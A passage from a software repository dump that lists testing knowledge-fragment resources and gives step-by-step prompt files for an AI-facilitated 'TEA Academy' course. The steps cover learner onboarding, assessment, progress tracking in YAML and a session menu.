    - name: "component-tdd"
      path: "/src/agents/bmad-tea/resources/knowledge/component-tdd.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/component-tdd.md"
      description: "TDD red-green-refactor loop"

    - name: "api-testing-patterns"
      path: "/src/agents/bmad-tea/resources/knowledge/api-testing-patterns.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/api-testing-patterns.md"
      description: "Pure API testing without browser"

    - name: "test-healing-patterns"
      path: "/src/agents/bmad-tea/resources/knowledge/test-healing-patterns.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-healing-patterns.md"
      description: "Auto-fix common test failures"

    - name: "selector-resilience"
      path: "/src/agents/bmad-tea/resources/knowledge/selector-resilience.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/selector-resilience.md"
      description: "Robust selectors that don't break"

    - name: "timing-debugging"
      path: "/src/agents/bmad-tea/resources/knowledge/timing-debugging.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/timing-debugging.md"
      description: "Race condition fixes"

  playwright_utils:
    - name: "overview"
      path: "/src/agents/bmad-tea/resources/knowledge/overview.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/overview.md"
      description: "Playwright Utils overview and installation"

    - name: "api-request"
      path: "/src/agents/bmad-tea/resources/knowledge/api-request.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/api-request.md"
      description: "Typed HTTP client with schema validation"

    - name: "network-recorder"
      path: "/src/agents/bmad-tea/resources/knowledge/network-recorder.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-recorder.md"
      description: "HAR record and playback"

    - name: "intercept-network-call"
      path: "/src/agents/bmad-tea/resources/knowledge/intercept-network-call.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/intercept-network-call.md"
      description: "Network spy and stub utilities"

    - name: "recurse"
      path: "/src/agents/bmad-tea/resources/knowledge/recurse.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/recurse.md"
      description: "Async polling for eventual consistency"

    - name: "log"
      path: "/src/agents/bmad-tea/resources/knowledge/log.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/log.md"
      description: "Test report logging utilities"

    - name: "file-utils"
      path: "/src/agents/bmad-tea/resources/knowledge/file-utils.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/file-utils.md"
      description: "CSV/XLSX/PDF/ZIP validation"

    - name: "burn-in"
      path: "/src/agents/bmad-tea/resources/knowledge/burn-in.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/burn-in.md"
      description: "Smart test selection via git diff"

    - name: "network-error-monitor"
      path: "/src/agents/bmad-tea/resources/knowledge/network-error-monitor.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/network-error-monitor.md"
      description: "HTTP 4xx/5xx detection"

    - name: "contract-testing"
      path: "/src/agents/bmad-tea/resources/knowledge/contract-testing.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/contract-testing.md"
      description: "Pact publishing and provider verification"

    - name: "pactjs-utils-overview"
      path: "/src/agents/bmad-tea/resources/knowledge/pactjs-utils-overview.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-overview.md"
      description: "Pact.js Utils installation and contract testing flows"

    - name: "pactjs-utils-consumer-helpers"
      path: "/src/agents/bmad-tea/resources/knowledge/pactjs-utils-consumer-helpers.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-consumer-helpers.md"
      description: "Consumer-side Pact helpers (createProviderState, toJsonMap)"

    - name: "pactjs-utils-provider-verifier"
      path: "/src/agents/bmad-tea/resources/knowledge/pactjs-utils-provider-verifier.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-provider-verifier.md"
      description: "Provider verification options builders"

    - name: "pactjs-utils-request-filter"
      path: "/src/agents/bmad-tea/resources/knowledge/pactjs-utils-request-filter.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pactjs-utils-request-filter.md"
      description: "Request filter for auth injection in provider verification"

    - name: "pact-mcp"
      path: "/src/agents/bmad-tea/resources/knowledge/pact-mcp.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pact-mcp.md"
      description: "SmartBear MCP server for PactFlow tooling setup"

    - name: "pact-consumer-framework-setup"
      path: "/src/agents/bmad-tea/resources/knowledge/pact-consumer-framework-setup.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pact-consumer-framework-setup.md"
      description: "Consumer CDC framework directory structure and CI workflow"

    - name: "pact-consumer-di"
      path: "/src/agents/bmad-tea/resources/knowledge/pact-consumer-di.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/pact-consumer-di.md"
      description: "Dependency injection pattern for Pact consumer tests"

    - name: "visual-debugging"
      path: "/src/agents/bmad-tea/resources/knowledge/visual-debugging.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/visual-debugging.md"
      description: "Trace viewer workflows and debugging artifacts"

  configuration_governance:
    - name: "playwright-config"
      path: "/src/agents/bmad-tea/resources/knowledge/playwright-config.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/playwright-config.md"
      description: "Environment and timeout guardrails"

    - name: "ci-burn-in"
      path: "/src/agents/bmad-tea/resources/knowledge/ci-burn-in.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/ci-burn-in.md"
      description: "CI orchestration and smart selection"

    - name: "selective-testing"
      path: "/src/agents/bmad-tea/resources/knowledge/selective-testing.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/selective-testing.md"
      description: "Tag and grep filters"

    - name: "feature-flags"
      path: "/src/agents/bmad-tea/resources/knowledge/feature-flags.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/feature-flags.md"
      description: "Feature flag governance and cleanup"

    - name: "risk-governance"
      path: "/src/agents/bmad-tea/resources/knowledge/risk-governance.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/risk-governance.md"
      description: "Risk scoring matrix and gate rules"

    - name: "adr-quality-readiness-checklist"
      path: "/src/agents/bmad-tea/resources/knowledge/adr-quality-readiness-checklist.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/adr-quality-readiness-checklist.md"
      description: "Quality readiness checklist for decisions and reviews"

  quality_frameworks:
    - name: "test-quality"
      path: "/src/agents/bmad-tea/resources/knowledge/test-quality.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-quality.md"
      description: "Definition of Done execution limits"

    - name: "test-levels-framework"
      path: "/src/agents/bmad-tea/resources/knowledge/test-levels-framework.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-levels-framework.md"
      description: "Unit/Integration/E2E selection criteria"

    - name: "test-priorities-matrix"
      path: "/src/agents/bmad-tea/resources/knowledge/test-priorities-matrix.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/test-priorities-matrix.md"
      description: "P0-P3 coverage targets"

    - name: "probability-impact"
      path: "/src/agents/bmad-tea/resources/knowledge/probability-impact.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/probability-impact.md"
      description: "Probability × impact scoring definitions"

    - name: "nfr-criteria"
      path: "/src/agents/bmad-tea/resources/knowledge/nfr-criteria.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/nfr-criteria.md"
      description: "Non-functional requirements assessment"

  auth_security:
    - name: "email-auth"
      path: "/src/agents/bmad-tea/resources/knowledge/email-auth.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/email-auth.md"
      description: "Magic link extraction and auth state"

    - name: "auth-session"
      path: "/src/agents/bmad-tea/resources/knowledge/auth-session.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/auth-session.md"
      description: "Token persistence and multi-user auth"

    - name: "error-handling"
      path: "/src/agents/bmad-tea/resources/knowledge/error-handling.md"
      github: "https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/blob/main/src/agents/bmad-tea/resources/knowledge/error-handling.md"
      description: "Exception handling and retry validation"

# Quick Reference Maps
session_to_resources:
  session-01:
    primary_docs: ["tea-lite-quickstart", "tea-overview", "run-automate"]
    fragments: []

  session-02:
    primary_docs: ["testing-as-engineering", "risk-based-testing", "test-quality-standards"]
    fragments: ["test-quality", "probability-impact"]

  session-03:
    primary_docs: ["fixture-architecture", "network-first-patterns", "step-file-architecture"]
    fragments: ["fixture-architecture", "network-first", "data-factories"]

  session-04:
    primary_docs: ["run-test-design"]
    fragments: ["test-levels-framework", "test-priorities-matrix"]

  session-05:
    primary_docs: ["run-atdd", "run-automate"]
    fragments: ["component-tdd", "api-testing-patterns", "api-request"]

  session-06:
    primary_docs: ["run-test-review", "run-trace"]
    fragments: []

  session-07:
    primary_docs: []
    fragments: [] # All 42 fragments available via menu-driven exploration

# Web-Browsing Fallback Strategy
fallback_urls:
  playwright_docs: "https://playwright.dev/brain/knowledge/docs_legacy/intro"
  jest_docs: "https://jestjs.io/brain/knowledge/docs_legacy/getting-started"
  cypress_docs: "https://docs.cypress.io/guides/overview/why-cypress"
  vitest_docs: "https://vitest.dev/guide/"
  testing_library: "https://testing-library.com/brain/knowledge/docs_legacy/"
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-01-init.md`
```markdown
---
name: 'step-01-init'
description: 'Initialize TEA Academy - check for existing progress and route to continuation or new assessment'

nextStepFile: './step-02-assess.md'
continueFile: './step-01b-continue.md'
progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
progressTemplate: '../templates/progress-template.yaml'
---

# Step 1: Initialize TEA Academy

## STEP GOAL:

To welcome the learner, check for existing progress from previous sessions, and route to either continuation (if progress exists) or new assessment (if starting fresh).

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step with 'C', ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning, not lectures
- ✅ You bring expertise in TEA methodology and teaching pedagogy
- ✅ Learner brings their role context, experience, and learning goals
- ✅ Together we build their testing knowledge progressively

### Step-Specific Rules:

- 🎯 Focus ONLY on initialization and routing
- 🚫 FORBIDDEN to start teaching yet - that comes in session steps
- 💬 Approach: Check for progress, route appropriately
- 🚪 This is the entry point - sets up everything that follows

## EXECUTION PROTOCOLS:

- 🎯 Check for existing progress file
- 💾 Create initial progress if new learner
- 📖 Route to continuation or assessment based on progress
- 🚫 FORBIDDEN to skip continuation check - critical for multi-session learning

## CONTEXT BOUNDARIES:

- Available context: User name, test artifacts path, templates
- Focus: Detect continuation vs new start
- Limits: No teaching yet, no assessment yet
- Dependencies: None - this is the first step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise unless user explicitly requests a change.

### 1. Welcome Message

Display:

"🧪 **Welcome to TEA Academy - Test Architecture Enterprise Learning**

A multi-session learning companion that teaches testing progressively through 7 structured sessions.

Let me check if you've started this journey before..."

### 2. Check for Existing Progress

Check if {progressFile} exists.

**How to check:**

- Attempt to read {progressFile}
- If file exists and is readable → Progress found
- If file not found or error → No progress (new learner)

### 3. Route Based on Progress

**IF progress file EXISTS:**

Display:

"✅ **Welcome back!** I found your existing progress.

Let me load where you left off..."

**THEN:** Immediately load, read entire file, then execute {continueFile}

---

**IF progress file DOES NOT EXIST:**

Display:

"📝 **Starting fresh!** I'll create your progress tracking file.

You can pause and resume anytime - your progress will be saved automatically after each session."

**THEN:** Proceed to step 4

### 4. Create Initial Progress File (New Learner Only)

Load {progressTemplate} and create {progressFile} with:

```yaml
---
# TEA Academy Progress Tracking
user: { user_name }
role: null # Will be set in assessment
experience_level: null # Will be set in assessment
learning_goals: null # Will be set in assessment
pain_points: null # Optional, set in assessment

started_date: { current_date }
last_session_date: { current_date }

sessions:
  - id: session-01-quickstart
    name: 'Quick Start'
    duration: '30 min'
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-02-concepts
    name: 'Core Concepts'
    duration: '45 min'
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-03-architecture
    name: 'Architecture & Patterns'
    duration: '60 min'
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-04-test-design
    name: 'Test Design'
    duration: '60 min'
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-05-atdd-automate
    name: 'ATDD & Automate'
    duration: '60 min'
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-06-quality-trace
    name: 'Quality & Trace'
    duration: '45 min'
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-07-advanced
    name: 'Advanced Patterns'
    duration: 'ongoing'
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

sessions_completed: 0
total_sessions: 7
completion_percentage: 0
next_recommended: session-01-quickstart

stepsCompleted: ['step-01-init']
lastStep: 'step-01-init'
lastContinued: { current_date }

certificate_generated: false
certificate_path: null
completion_date: null
---
```

### 5. Proceed to Assessment (New Learner Only)

Display:

"✅ **Progress file created!**

Now let's learn about you - your role, experience level, and learning goals.

This helps me customize examples and recommendations for you.

**Proceeding to assessment...**"

**THEN:** Immediately load, read entire file, then execute {nextStepFile}

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Progress file check performed correctly
- Existing learners routed to continuation (step-01b)
- New learners get progress file created
- Progress file has complete schema with all 7 sessions
- New learners routed to assessment (step-02)
- stepsCompleted array initialized

### ❌ SYSTEM FAILURE:

- Skipping progress file check
- Not routing to continuation for existing learners
- Creating duplicate progress files
- Progress file missing required fields
- Not updating stepsCompleted array
- Asking user questions before checking progress

**Master Rule:** This is an auto-proceed initialization step. Check progress, route appropriately, no user menu needed.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-01b-continue.md`
```markdown
---
name: 'step-01b-continue'
description: 'Resume TEA Academy learning - load progress and display dashboard'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
nextStepFile: './step-03-session-menu.md'
---

# Step 1b: Continue TEA Academy

## STEP GOAL:

To resume the TEA Academy workflow from a previous session by loading progress, displaying a dashboard, and routing to the session menu.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate _new instructional content_ without user input (auto-proceed steps may display status/route)
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step with 'C', ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning, not lectures
- ✅ You bring expertise in TEA methodology and teaching pedagogy
- ✅ Learner brings their role context, experience, and learning goals
- ✅ Together we build their testing knowledge progressively

### Step-Specific Rules:

- 🎯 Focus ONLY on loading progress and routing to session menu
- 🚫 FORBIDDEN to start teaching - that happens in session steps
- 💬 Approach: Load progress, show dashboard, route to menu
- 🚪 This is the continuation entry point - seamless resume

## EXECUTION PROTOCOLS:

- 🎯 Load progress file completely
- 💾 Update lastContinued timestamp
- 📖 Display progress dashboard with completion status
- 🚫 FORBIDDEN to skip dashboard - learners need to see progress
- ⏭️ Auto-route to session menu after dashboard

## CONTEXT BOUNDARIES:

- Available context: Progress file with all session data
- Focus: Display progress, route to menu
- Limits: No teaching, no session execution
- Dependencies: Progress file must exist (checked in step-01-init)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise unless user explicitly requests a change.

### 1. Load Progress File

Read {progressFile} completely and extract:

- user
- role
- experience_level
- started_date
- sessions array (all 7 sessions with status, scores)
- sessions_completed
- completion_percentage
- next_recommended

### 2. Update Last Continued Timestamp

Update {progressFile} frontmatter:

- Set `lastContinued: {current_date}`
- Keep all other fields unchanged

### 3. Display Progress Dashboard

Display:

"🧪 **Welcome back to TEA Academy, {user}!**

**Your Role:** {role}
**Experience Level:** {experience_level}
**Started:** {started_date}
**Progress:** {completion_percentage}% ({sessions_completed} of 7 sessions completed)

---

### 📊 Session Progress

{Display each session with completion indicator}

{For each session in sessions array:}
{If status == 'completed':}
✅ **Session {N}:** {name} - Completed {completed_date} (Score: {score}/100)
{If status == 'in-progress':}
🔄 **Session {N}:** {name} - In Progress (Started {started_date})
{If status == 'not-started':}
⬜ **Session {N}:** {name} - Not Started

---

### 🎯 Next Recommended

{next_recommended}

---

**Let's continue your learning journey!**

Loading session menu..."

### 4. Route to Session Menu

Display:

"**Proceeding to session menu...**"

**THEN:** Immediately load, read entire file, then execute {nextStepFile}

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Progress file loaded correctly
- lastContinued timestamp updated
- Dashboard displayed with accurate completion status
- Session indicators correct (✅ completed, 🔄 in-progress, ⬜ not-started)
- Completion percentage calculated correctly
- Next recommended session identified
- Auto-routed to session menu (step-03)

### ❌ SYSTEM FAILURE:

- Not loading progress file
- Dashboard missing or incomplete
- Incorrect completion indicators
- Not updating lastContinued timestamp
- Asking user for input instead of auto-routing
- Not routing to session menu

**Master Rule:** This is an auto-proceed continuation step. Load progress, show dashboard, route to session menu - no user menu needed.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-02-assess.md`
```markdown
---
name: 'step-02-assess'
description: 'Gather learner role, experience level, learning goals, and pain points to customize teaching'

nextStepFile: './step-03-session-menu.md'
progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
---

# Step 2: Learner Assessment

## STEP GOAL:

To gather the learner's role, experience level, learning goals, and pain points to customize teaching examples and recommendations throughout the curriculum.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate _new instructional content_ without user input (auto-proceed steps may display status/route)
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step (auto-proceed), ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning, not lectures
- ✅ You bring expertise in TEA methodology and teaching pedagogy
- ✅ Learner brings their role context, experience, and learning goals
- ✅ Together we build their testing knowledge progressively

### Step-Specific Rules:

- 🎯 Focus ONLY on gathering assessment data
- 🚫 FORBIDDEN to start teaching yet - that comes in session steps
- 💬 Approach: Ask clear questions, validate responses, explain why we're asking
- 🚪 This assessment customizes the entire learning experience

## EXECUTION PROTOCOLS:

- 🎯 Ask questions one at a time
- 💾 Validate each response before moving forward
- 📖 Update progress file with complete assessment data
- 🚫 FORBIDDEN to skip validation - ensures data quality

## CONTEXT BOUNDARIES:

- Available context: Progress file created in step-01
- Focus: Gather role, experience, goals, pain points
- Limits: No teaching yet, no session execution
- Dependencies: Progress file exists (created in step-01-init)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise unless user explicitly requests a change.

### 1. Welcome and Explain Assessment

Display:

"📋 **Learner Assessment**

Before we begin, let me learn about you. This helps me:

- Choose relevant examples for your role
- Adjust complexity to your experience level
- Focus on your specific learning goals
- Address your pain points

This will take just 2-3 minutes."

### 2. Gather Role

Ask:

"**What is your role?**

Please select one:

- **QA** - QA Engineer / Test Engineer / SDET
- **Dev** - Software Developer / Engineer
- **Lead** - Tech Lead / Engineering Manager
- **VP** - VP Engineering / Director / Executive

Your role helps me tailor examples to your perspective."

**Wait for response.**

**Validate response:**

- Must be one of: QA, Dev, Lead, VP (case-insensitive)
- If invalid: "Please select one of the four options: QA, Dev, Lead, or VP"
- Repeat until valid

**Store validated role for later update to progress file.**

### 3. Gather Experience Level

Ask:

"**What is your experience level with testing?**

Please select one:

- **Beginner** - New to testing, learning fundamentals
- **Intermediate** - Have written tests, want to improve
- **Experienced** - Strong testing background, want advanced techniques

Your experience level helps me adjust complexity and skip topics you already know."

**Wait for response.**

**Validate response:**

- Must be one of: Beginner, Intermediate, Experienced (case-insensitive)
- If invalid: "Please select one of the three levels: Beginner, Intermediate, or Experienced"
- Repeat until valid

**Store validated experience_level for later update to progress file.**

### 4. Gather Learning Goals

Ask:

"**What are your learning goals?**

Tell me what you want to achieve with TEA Academy. For example:

- Learn testing fundamentals from scratch
- Understand TEA methodology and workflows
- Improve test quality and reduce flakiness
- Master advanced patterns (fixtures, network-first, etc.)
- Prepare for QA onboarding at my company

**Your answer helps me recommend which sessions to focus on.**"

**Wait for response.**

**Validate response:**

- Must not be empty
- Should be at least 10 characters
- If too short: "Please provide more detail about your learning goals (at least a sentence)"
- Repeat until valid

**Store learning_goals for later update to progress file.**

### 5. Gather Pain Points (Optional)

Ask:

"**What are your current pain points with testing?** _(Optional)_

For example:

- Flaky tests that fail randomly
- Slow test suites
- Hard to maintain tests
- Don't know where to start
- Team doesn't value testing

**This helps me provide targeted examples. You can skip this by typing 'skip' or 'none'.**"

**Wait for response.**

**Handle response:**

- If response is "skip", "none", or similar → Set pain_points to null
- If response is provided → Store pain_points for later update
- No validation needed (optional field)

### 6. Summarize Assessment

Display:

"✅ **Assessment Complete!**

Here's what I learned about you:

**Role:** {role}
**Experience Level:** {experience_level}
**Learning Goals:** {learning_goals}
**Pain Points:** {pain_points or 'None specified'}

I'll use this to customize examples and recommendations throughout your learning journey."

### 7. Update Progress File

Load {progressFile} and update the following fields:

- `role: {role}`
- `experience_level: {experience_level}`
- `learning_goals: {learning_goals}`
- `pain_points: {pain_points}` (or null if not provided)

Update stepsCompleted array:

- Append 'step-02-assess' to stepsCompleted array
- Update lastStep: 'step-02-assess'

**Save the updated progress file.**

### 8. Provide Next Steps Preview

Display:

"**Next:** You'll see the session menu where you can choose from 7 learning sessions.

**Based on your experience level:**

{If beginner:}

- I recommend starting with Session 1 (Quick Start)
- It introduces TEA with a hands-on example

{If intermediate:}

- You might want to skip to Session 3 (Architecture)
- Or review Session 2 (Core Concepts) first if you want fundamentals

{If experienced:}

- Feel free to jump to Session 7 (Advanced Patterns)
- Or pick specific sessions based on your goals

You can take sessions in any order and pause anytime!"

### 9. Proceed to Session Menu

After the assessment summary, proceed directly to the session menu:

- Load, read entire file, then execute {nextStepFile}

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- All required fields gathered (role, experience_level, learning_goals)
- Optional pain_points handled correctly
- All responses validated before proceeding
- Progress file updated with assessment data
- stepsCompleted array updated with 'step-02-assess'
- Experience-based recommendations provided
- User routed to session menu (step-03)

### ❌ SYSTEM FAILURE:

- Skipping validation of required fields
- Not updating progress file
- Not adding to stepsCompleted array
- Proceeding without waiting for user responses
- Not providing experience-based recommendations
- Hardcoding responses instead of asking user

**Master Rule:** Assessment must be complete and validated before proceeding to session menu.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-c/step-03-session-menu.md`
```markdown
---
name: 'step-03-session-menu'
description: 'Session selection hub - display all 7 sessions with completion status and route to selected session or completion'

progressFile: '{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml'
session01File: './step-04-session-01.md'
session02File: './step-04-session-02.md'
session03File: './step-04-session-03.md'
session04File: './step-04-session-04.md'
session05File: './step-04-session-05.md'
session06File: './step-04-session-06.md'
session07File: './step-04-session-07.md'
completionFile: './step-05-completion.md'
---

# Step 3: Session Menu (Hub)

## STEP GOAL:

To present all 7 learning sessions with completion status, allow non-linear session selection, and route to chosen session or completion. This is the central hub - all sessions return here.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read the complete step file before taking any action
- 🔄 CRITICAL: When loading next step with 'C', ensure entire file is read
- 📋 YOU ARE A FACILITATOR, not a content generator
- ✅ YOU MUST ALWAYS SPEAK OUTPUT In your Agent communication style with the config `{communication_language}`

### Role Reinforcement:

- ✅ You are a Master Test Architect and Teaching Guide
- ✅ We engage in collaborative learning, not lectures
- ✅ You bring expertise in TEA methodology and teaching pedagogy
- ✅ Learner brings their role context, experience, and learning goals
- ✅ Together we build their testing knowledge progressively

### Step-Specific Rules:

- 🎯 Focus ONLY on displaying sessions and routing
- 🚫 FORBIDDEN to start teaching - that happens in session steps
- 💬 Approach: Show progress, let learner choose their path
- 🚪 This is the HUB - all sessions loop back here

## EXECUTION PROTOCOLS:

- 🎯 Load progress file to get session completion status
- 💾 Display sessions with accurate indicators
- 📖 Route to selected session or completion
- 🚫 FORBIDDEN to skip progress check - status indicators critical
- ⏭️ No stepsCompleted update (this is a routing hub, not a content step)

## CONTEXT BOUNDARIES:

- Available context: Progress file with all session data
- Focus: Display menu, route to selection
- Limits: No teaching, no session execution
- Dependencies: Progress file exists (created in step-01, updated in step-02)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise unless user explicitly requests a change.

### 1. Load Progress File

Read {progressFile} and extract:

- user
- role
- experience_level
- sessions array (all 7 sessions with status, scores, dates)
- sessions_completed
- completion_percentage
- next_recommended

### 2. Display Session Menu with Status

Display:

"🧪 **TEA Academy - Session Menu**

**Progress:** {completion_percentage}% ({sessions_completed} of 7 sessions completed)

---

### 📚 Available Sessions

{For each session in sessions array, display with status indicator:}

**Session 1: Quick Start (30 min)**
{status_indicator} TEA Lite intro, run automate workflow
{if completed: Score: {score}/100 | Completed: {completed_date}}
{if in-progress: Started: {started_date}}

**Session 2: Core Concepts (45 min)**
{status_indicator} Risk-based testing, DoD, testing philosophy
{if completed: Score: {score}/100 | Completed: {completed_date}}
{if in-progress: Started: {started_date}}

**Session 3: Architecture & Patterns (60 min)**
{status_indicator} Fixtures, network patterns, framework setup
{if completed: Score: {score}/100 | Completed: {completed_date}}
{if in-progress: Started: {started_date}}

**Session 4: Test Design (60 min)**
{status_indicator} Risk assessment, test design workflow
{if completed: Score: {score}/100 | Completed: {completed_date}}
{if in-progress: Started: {started_date}}

**Session 5: ATDD & Automate (60 min)**
{status_indicator} ATDD + Automate workflows, TDD approach
{if completed: Score: {score}/100 | Completed: {completed_date}}
{if in-progress: Started: {started_date}}

**Session 6: Quality & Trace (45 min)**
{status_indicator} Test review + Trace workflows, quality metrics
{if completed: Score: {score}/100 | Completed: {completed_date}}
{if in-progress: Started: {started_date}}

**Session 7: Advanced Patterns (ongoing)**
{status_indicator} Menu-driven knowledge fragment exploration (42 fragments)
{if completed: Score: {score}/100 | Completed: {completed_date}}
{if in-progress: Started: {started_date}}

---

**Status Indicators:**

- ✅ = Completed
- 🔄 = In Progress
- ⬜ = Not Started

---

{If next_recommended exists:}
💡 **Recommended Next:** {next_recommended}
"

### 3. Check for Completion

**Before displaying menu options, check:**

If all 7 sessions have status 'completed' AND certificate_generated != true:

- Display: "🎉 **Congratulations!** You've completed all 7 sessions!"
- Skip session menu options
- Proceed directly to step 4b (route to completion)

**Otherwise:** Display session menu options in step 4a

### 4a. Present Session Menu Options (Sessions Remaining)

Display:

"**Select a session or exit:**

**[1-7]** Start or continue a session
**[X]** Save progress and exit

What would you like to do?"

#### EXECUTION RULES:

- ALWAYS halt and wait for user input after presenting menu
- Route based on user selection
- User can ask questions - always respond and redisplay menu

